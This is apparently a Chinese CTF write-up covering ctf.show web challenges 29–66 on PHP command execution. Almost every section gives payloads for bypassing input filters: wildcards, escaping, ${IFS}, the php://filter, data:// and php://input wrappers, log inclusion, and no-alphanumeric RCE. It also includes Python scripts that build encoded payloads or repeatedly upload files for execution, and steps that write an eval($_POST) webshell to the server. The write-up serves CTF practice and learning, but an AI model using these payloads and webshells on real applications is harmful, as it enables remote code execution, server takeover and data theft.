









# web-命令执行

## web-29（*模糊匹配）



发现过滤了flag关键字，这里使用*模糊匹配就行了

```
?c=system('cat fla*');
```

## web-30（passthru、*模糊匹配）



又过滤了system和php关键字，我们把system换成passthru加上模糊匹配即可

```
?c=passthru('cat fla*');
```

## web-31（tac、%09绕过空格过滤、双引号绕过单引号过滤）



这里又把cat、单引号和空格过滤了，可以把cat换成tac然后用url编码%09绕过空格过滤，然后使用双引号闭合

```
?c=passthru("tac%09fla*");
```

## web-32（文件包含、filter伪协议、变量覆盖）



这题过滤了更多东西。这里可以通过文件包含（伪协议）和变量覆盖来写，因为include包含函数是可以包含变量的$_GET[1]不加括号是因为，include把$__GET[1]当做一个变量来看，变量的内容由1来确定，1=php://filter/convert.base64-encode/resource=flag.php是通过get请求传入的参数，内容是一个文件包含，以base64形式返回

```
?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

## web-33（文件包含、data://伪协议）



和上一题差不多，但是可以用另一种方法，文件包含**data://协议**

类似与php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。从而导致任意代码执行。

```
?c=include$_GET[1]?>&1=data://text/plain,<?php system('cat flag.php');?>
```

## web-34（文件包含、input伪协议）

和上一题一样，但是我们换一种方法，文件包含php://input伪协议来做

利用该方法可以直接写入php文件，比如url中输入?file=php://input，然后使用burp抓包，在POST请求中写入php代码

```
?c=include$_GET[1]?>&1=php://input

抓包在post请求中写入
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["mixbp"])?>');?>
```

这样就会在服务器端自动生成我们的一句话木马文件，然后用蚁剑连接即可拿到flag

## web-35（同前几题）

和前几个题一样

## web-36（日志包含）

和前几个题相比多过滤了0-9，把GET方法中的参数改为a即可。

**使用日志包含也可以，用文件包含去包含nginx默认的access日志路径，然后访问该路径抓包，在UA头里写入一句话木马，然后用蚁剑连接即可**

```
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php

日志包含
?c=include$_GET[a]?>&a=/var/log/nginx/access.log
```

## web-37（data://伪协议、base64加密）



这里eval换成了include，很明显要用文件包含，但是过滤了flag关键字，所以可以使用文件包含**data://协议**，将我们的代码通过base64加密后再输入，这样就能绕过flag关键字过滤了

语法为data://text/plain;base64,代码

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==即为<?php system('cat flag,php');?>
```

## web-38（同上题）



比上题多过滤了个php和file关键字，使用上题的payload即可

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```

## web-39（data://伪协议）



源码会在我们的$c后拼接一个'.php'，但是拼接的php可以不用管,include只会处理`<?php ?>`内部的内容

但是这里试了一下好像不能用base64加密绕过了，所以使用模糊匹配绕过关键字过滤

```
?c=data://text/plain,<?php system("tac fla*");?>
```

## web-40（无参数RCE绕过、scandir文件读取）



看到题目被吓到了以为过滤了小括号，结果发现是中文括号，这里可以使用无参数RCE绕过或者scandir()文件读取都行

```
无参数RCE
?c=eval(end(pos(get_defined_vars())));&cmd=system('tac flag.php');

或者

scandir()文件读取
首先，查看当前目录下文件
print_r(scandir(current(localeconv())));
发现flag.php在第二位，直接show_source读取
show_source(next(array_reverse(scandir(current(localeconv())))));
```

## web-41（无字母数字或运算绕过）

这题不会直接看的题解

```
对于'/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i'
```

该正则表达式的含义是：它会匹配任意一个数字字符、小写字母、"^"、"+"、"~"、"$"、"["、"]"、"{"、"}"、"&" 或 "-"，并且在匹配时忽略大小写。可以说过滤了大部分绕过方式，但是还剩下"|"没有过滤。所以这道题的目的就是要我们使用ascii码为0-255中没有被过滤的字符进行或运算，从而得到被绕过的字符。

思路如下：

- 首先对ascii从0-255所有字符中筛选出未被过滤的字符，然后两两进行或运算，存储结果。
- 跟据题目要求，构造payload的原型，并将原型替换为或运算的结果
- 使用POST请求发送c,获取flag

**一体化脚本：**

```
import re
import urllib
from urllib import parse
import requests

contents = []

for i in range(256):
    for j in range(256):
        hex_i = '{:02x}'.format(i)
        hex_j = '{:02x}'.format(j)
        preg = re.compile(r'[0-9]|[a-z]|\^|\+|~|\$|\[|]|\{|}|&|-', re.I)
        if preg.search(chr(int(hex_i, 16))) or preg.search(chr(int(hex_j, 16))):
            continue
        else:
            a = '%' + hex_i
            b = '%' + hex_j
            c = chr(int(a[1:], 16) | int(b[1:], 16))
            if 32 <= ord(c) <= 126:
                contents.append([c, a, b])


def make_payload(cmd):
    payload1 = ''
    payload2 = ''
    for i in cmd:
        for j in contents:
            if i == j[0]:
                payload1 += j[1]
                payload2 += j[2]
                break
    payload = '("' + payload1 + '"|"' + payload2 + '")'
    return payload


URL = input('url:')
payload = make_payload('system') + make_payload('cat flag.php')
response = requests.post(URL, data={'c': urllib.parse.unquote(payload)})
print(response.text)
```

---

## web-42（||绕过 >/dev/null 2>&1命令）

这题给我们的$c后拼接了一个`" >/dev/null 2>&1"`，该命令让所有的输出流（包括错误的和正确的）都定向到空设备丢弃

这里可以使用`||`来绕过，这里用%0a和%26都行

**||类似于程序中的if-else语句。若前面的命令执行成功，则后面的命令就不会执行。若前面的命令执行失败，则执行后面的命令**

```
?c=cat flag.php||
```

---

## web-43（tac）

比上一题多过滤了个cat和分号，换tac即可

```
?c=tac flag.php||
```

---

## web-44（*模糊匹配）

又比上题多过滤了个flag，这里用*号模糊匹配即可

```
?c=tac fla*||
```

---

## web-45（%09绕过空格过滤、${IFS}）

比上一题多过滤了个空格，用url编码`%09`代替空格即可，用`${IFS}`也行

```
?c=tac%09fla*||
```

---

## web-46（?转义、\转义绕过*号过滤）

又多过滤了*号，**可以用?或者\转义绕过**

**用''和""空字符绕过也行**

```
?c=tac%09fla?.php||

或者
?c=tac<fla\g.php||

?c=tac%09fl''ag.php||
?c=tac%09fl""ag.php||

注意：用了?就不能用重定向符<来绕过空格了
```

---

## web-47（同上题）

又多过滤了一些命令more、less、head、sort、tail，用上一关的payload就行了

```
?c=tac%09fla?.php||
```

---

## web-48（同上题）

还是没过滤tac，一样

---

## web-49（同上题）

还是一样

---

## web-50（<重定向符绕过空格过滤）

依然可以用tac绕过，但是%和制表符被过滤了

注意：这里过滤了/x09即制表符

```
?c=tac<fl\ag.php||
```

---

## web-51（nl、<重定向符）

这题过滤了tac和%，用nl和<绕过就行了

```
?c=nl<fl\ag.php||
```

---

## web-52（${IFS}绕过空格过滤）

这题把<给过滤了，但是没过滤字母和$符号以及大括号，所以能用${IFS}代替空格

```
?c=nl${IFS}fl\ag.php||
```

---

## web-53（同上）

一样用$IFS即可

```
?c=nl${IFS}fl\ag.php
或者
?c=ta''c${IFS}fl\ag.php
```

---

## web-54（通过命令路径使用cat命令、rev）

这里用了

```
|.*c.*a.*t.*|这种匹配方式
匹配包含字符 c、a、t 的任意顺序的字符串，例如 cat、cbaat 等
```

所以可以这样绕过，通过命令路径来使用cat命令（linux路径下万物皆文件）

```
?c=/bin/ca?${IFS}f???.???

或者
?c=rev${IFS}fla?.php
输出出来是反转的
```

---

## web-55（无字母base64+通配符、/usr/bin/bzip2压缩命令、bash shell转义字符）

由于过滤了字母，但没有过滤数字，我们尝试使用/bin目录下的可执行程序。

但因为字母不能传入，我们需要使用通配符?来进行代替

**base64+通配符**

```
?c=/bin/base64 flag.php
替换为
?c=/???/????64 ????.???
```

**/usr/bin/bzip2压缩命令，将flag.php压缩为压缩包，访问并下载**

```
?c=/???/???/????2 ????.???
即/usr/bin/bzip2 flag.php
把flag.php给压缩，然后访问url+flag.php.bz2就可以把压缩后的flag.php给下载下来。
```

**bash shell的转义字符**

```
Bash shell中，\是转义字符的开始。当你使用\后跟一个数字时，Bash会将其解释为八进制数，并将其转换为对应的ASCII字符。

可通过 $'[转义字符]'构造命令。

payload:
?c=$'\154\163'    ls
?c=$'\143\141\164'%20*    cat *
```

这里也可以用文件上传加读取

先构造一个文件上传的POST数据包；

二：PHP页面生成临时文件phpXXXXXX，存储在/tmp目录下；

三：执行指令./???/??????[@-[]，读取文件执行其中指令；

用python脚本直接完成，也可以写个表单去上传都行

先使用python脚本上传文件并访问，这样就能生成一个shell.php文件

```
import requests

url2 = 'http://03b01a20-43d6-439e-b60d-6bb746c9332f.challenge.ctf.show/?c=.+/???/????????[@-[]'
file = {"file":("mixbp.txt","echo '<?php eval($_POST[1]);' > shell.php")}


while True:
    r = requests.post(url=url2,files=file)
```

然后用蚁剑连接即可

或者直接输出答案到python

```
import requests

while True:
    url = "http://25a61f1e-6750-49d2-a671-7bce2a18c52b.challenge.ctf.show/?c=.+/???/????????[@-[]"
    r = requests.post(url, files={"file": ('mixbp.txt','cat flag.php')})
    if "ctfshow" in r.text:
        print(r.text)
        break
```

---

## web-56（无字母数字RCE）

源码：

```
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
```

无字母数字RCE

过滤了字母数字，%号，杜绝取反和异或；$，杜绝转义，看了其他大神的wp，总结出下面的方法：

可以通过POST上传一个文件，文件中包含命令，通过source命令（.）来执行命令，该文件在linux下面保存在 **/tmp/php??????** ，后六个字符为随机生成的大小写，可使用linux匹配符去匹配。

可以通过构造post上传文件的数据包，或者使用python脚本：

（1）数据包

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="[传参网站]" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

传入参数 **?c=.%20/???/????????[@-[]**

在文件内容中写入命令：

```bash
#!/bin/sh

ls
cat /var/www/html/falg.php
```

2）python脚本

同样的思路。

```python
import requests

while True:
    url = "[自定义网站]/?c=.+/???/????????[@-[]"
    r = requests.post(url, files={"file": ('feng.txt', b'cat flag.php')})
    if r.text.find("flag") > 0:
        print(r.text)
        break
```

## web-57（无数字字母RCE构造数字）

题目源码：

```php
// 还能炫的动吗？
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}else{
    highlight_file(__FILE__);
} 
```

解题思路：

未过滤$、取反~和左右括号()，提示flag在36.php中，文件名为数字，且程序会直接cat到指定文件内容，需要给c赋值为36。

可使用Bash shell中的双小括号(())来进行构造数字：

- $(()) 代表一次运算，括号内可以填入运算式，因为里面为空，所以结果会被解析为0
- 对0取反可以得到-1，使用表达式表示为$(( ~$(()) ))
- 两个双小括号运算符相连，默认为相加，如$(( $(~$(())) $(( ~$(()))) )) ，-1+(-1)=-2
- 通过上述方法我们可以构造出-37，又-37取反得到36，目的达成，在$(( ~$((    )) ))中放入37个$(( ~$(()) ))，即可构造出数字36

python脚本得到payload：

```
payload = "$((~$(({}))))".format("$((~$(())))"*37)
print(payload)

$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))

```

---

## web-58（命令执行突破禁用函数、include加伪协议读取文件、highlight_file()、show_source()）

源码：

```
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

通过include绕过过滤 本题对于passthru，system等命令执行函数都禁用了。eval在php里面是执行代码层面的函数，无法直接执行linux命令。因此为了绕过过滤就使用include加伪协议绕过、或者使用highlight_file()函数或者show_source()函数直接读取flag.php。

payload：

```
post：
include加伪协议
POST传参：c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php

highlight_file()
POST传参：c=highlight_file("flag.php");

show_source()
c=show_source('flag.php');
```

---

## web-59（命令执行突破禁用函数）

跟上题一样

```
POST传参：c=highlight_file("flag.php");
POST传参：c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php
或者
c=include "php://filter/convert.base64-encode/resource=flag.php";
POST传参：c=show_source('flag.php');
```

---

## web-60（命令执行突破禁用函数、扫描当前目录）

应该也过滤了些函数，但是不知道过滤了啥，试了下file_get_contents被过滤了，但是上题的payload都能用，这里用一下扫描当前目录的payload：

```
先扫描一下文件: c=print_r(scandir(dirname('FILE')));
c=print_r(scandir(dirname('.')));
发现flag.php

然后读取flag.php，有以下几种方法
POST传参：c=highlight_file("flag.php");
POST传参：c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php
c=include "php://filter/convert.base64-encode/resource=flag.php";
POST传参：c=show_source('flag.php');
```

---

## web-61-64（同上）

---

## web-65（无参数文件读取、include文件包含配合echo输出flag）

这里用一下无参数文件读取和include包含加echo输出得到flag

```
无参数文件读取
c=show_source(next(array_reverse(scandir(pos(localeconv())))));

include文件包含然后echo输出flag
c=include("flag.php");echo $flag;
```

---

## web-66（根目录扫描、php原生类）

